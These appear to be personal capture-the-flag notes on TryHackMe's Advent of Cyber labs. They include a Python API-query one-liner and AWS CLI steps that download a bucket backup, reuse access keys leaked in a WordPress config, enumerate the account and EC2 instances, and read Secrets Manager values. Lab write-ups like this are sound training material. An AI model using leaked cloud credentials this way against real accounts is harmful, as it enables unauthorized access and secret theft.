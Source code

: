 # Advent of Cyber

## Advent of Cyber 2

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2).

## [Day 16] Scripting Help! Where is Santa?

Python One-Liner to query the API :)

``` python
import requests 
for number in range (1,100,2): print(f'{number} --> ' + requests.get(f'http://localhost:8080/api/{number}').text)
```

## Advent of Cyber 3

## [Day 17] Cloud Elf Leaks

Install CLI

``` sh
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

Get details on S3 bucket

``` sh
aws s3 ls s3://images.bestfestivalcompany.com/ --no-sign-request

curl https://s3.amazonaws.com/images.bestfestivalcompany.com/wp-backup.zip

define('S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com');
define('S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI');
define('S3_UPLOADS_SECRET', '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');
define('S3_UPLOADS_REGION', 'us-east-1');
```

AWS IAM

``` sh
aws configure
AWS Access Key ID [None]: AKIAQI52OJVCPZXFYAOI
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]:
```

AWS get details

``` sh
aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI
aws s3 ls --profile PROFILENAME 
aws sts get-caller-identity --profile PROFILENAME
aws ec2 describe-instances --output text --profile PROFILENAME
aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME
```

AWS Secrets Manager

``` sh
aws secretsmanager list-secrets --region us-north-1
aws secretsmanager list-secrets --region eu-north-1
aws secretsmanager get-secret-value --secret-id HR-Password --region eu-north-1
```
